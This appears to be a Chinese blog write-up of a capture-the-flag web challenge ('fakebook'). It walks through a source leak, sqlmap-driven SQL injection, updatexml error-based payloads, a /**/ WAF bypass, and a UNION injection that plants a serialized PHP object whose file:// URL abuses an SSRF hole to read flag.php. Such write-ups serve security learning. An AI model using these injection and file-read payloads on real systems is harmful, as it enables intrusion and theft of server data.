








<!--yml
category: 未分类
date: 2022-04-26 14:52:16
-->

# 解网鼎杯一道web题（fakebook）_诸神之眼的博客-CSDN博客_fakebook

> 来源：[https://blog.csdn.net/qq_42196196/article/details/81952174](https://blog.csdn.net/qq_42196196/article/details/81952174)



## 扫描：

nikto扫描：

发现隐藏的robots.txt，其中有源码泄漏（/user.php.bak），输入到地址栏，得到文件user.php.bak。然后用御剑扫描，发现flag.php。

> user.php.bak源码：
> 
> <?php
> 
> class UserInfo
> {
> 
>     public $name = "";
>     public $age = 0;
>     public $blog = "";
> 
>     public function __construct($name, $age, $blog)
>     {
>         $this->name = $name;
>         $this->age = (int)$age;
>         $this->blog = $blog;
>     }
> 
>     function get($url)
>     {
>         $ch = curl_init();                                   //初始化一个curl会话
> 
>         curl_setopt($ch, CURLOPT_URL, $url);                 //设置需要抓取的URL
>         curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);         //设置cURL 参数，要求结果保存到字符串中还是输出到屏幕上
>         $output = curl_exec($ch);                            //运行cURL，请求网页
>         $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
>         if($httpCode == 404) {
>             return 404;
>         }
>         curl_close($ch);          //关闭一个curl会话，唯一的参数是curl_init()函数返回的句柄
> 
>         return $output;
>     }
> 
>     public function getBlogContents ()
>     {
>         return $this->get($this->blog);
>     }
> 
>     public function isValidBlog ()
>     {
>         $blog = $this->blog;
>         return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
>     }
> 
> }

 审计源码发现其中get()函数存在SSRF(服务端请求伪造)漏洞。

对注册页面和登陆页面进行post注入探测，发现注册页面中username一栏存在post注入。然后随意注册一个账户，登陆进去以后，发现/view.php?no=1,存在get注入。将no参数改为不存在的值，php报错，得到网站配置文件的后台物理路径/var/www/html/。


## 注入：

我选择了post注入，因为先发现了post，所以就用burpsuite截取了post数据包，保存为post.txt
(事后用sqlmap跑get注入点并没有跑出结果)

> post.txt数据：
> 
> POST /join.ok.php HTTP/1.1
> Host: http://f60c34e18065457cab2a8f72a615f74aeed1bc0d1cd84c6d.game.ichunqiu.com/
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
> Accept-Language: zh,en-US;q=0.7,en;q=0.3
> Referer: http://f60c34e18065457cab2a8f72a615f74aeed1bc0d1cd84c6d.game.ichunqiu.com/join.php
> Cookie: UM_distinctid=1655535613c89-0225b46f53fa79-38694646-100200-1655535613e38; pgv_pvi=3838269440; Hm_lvt_2d0601bd28de7d49818249cf35d95943=1534816179,1534831680,1534834500,1534848123; chkphone=acWxNpxhQpDiAchhNuSnEqyiQuDIO0O0O; ci_session=b6cdb3f35d0c299c39a2a581c0de505887626935; pgv_si=s4980557824; Hm_lpvt_2d0601bd28de7d49818249cf35d95943=1534848148; PHPSESSID=dcgbips79uln77iea8bol6u4d5
> Connection: close
> Upgrade-Insecure-Requests: 1
> Content-Type: application/x-www-form-urlencoded
> Content-Length: 62
> 
> username=1&passwd=1&age=1&blog=https%3A%2F%2Fwww.csdn.net%2F

接着sqlmap跑包
#sqlmap -r /root/File/post.txt --dump -tables
发现数据库data列储存的是PHP反序列化。

## **fuzz测试：**

> 爆表名 /view.php?no=1 and updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)#



> 爆列名 /view.php?no=1 and updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)#



> 爆字段 /view.php?no=1 and updatexml(1,make_set(3,'~',(select data from users)),1)#



综合考虑：服务端请求伪造漏洞，在服务器上的flag.php文件，网站配置文件的物理路径(同时也是flag.php的路径)，PHP反序列化。

整理出思路：利用no参数进行注入，在反序列化中构造file文件协议，利用服务端请求伪造漏洞访问服务器上的flag.php文件。
构造注入:

```
/view.php?no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```

直接用 `union select` 会被WAF检测到，所以使用 `/**/` 来绕过，反序列化字符串对应数据库data列放在第四列（fuzz测试，爆列名），注入后bolg栏显示file:///var/www/html/flag.php，代表注入成功，审计页面源码，发现<iframe width='100%' height='10em' src='data:text/html;base64,PD9waHANCg0KJGZsYWcgPSAiZmxhZ3s3YjY1NzM3Zi04NzA4LTQ2ZmYtODhmOC0wMDY4YzY4NTlhMmN9IjsNCmV4aXQoMCk7DQo='>标签，点击链接，拿到flag。
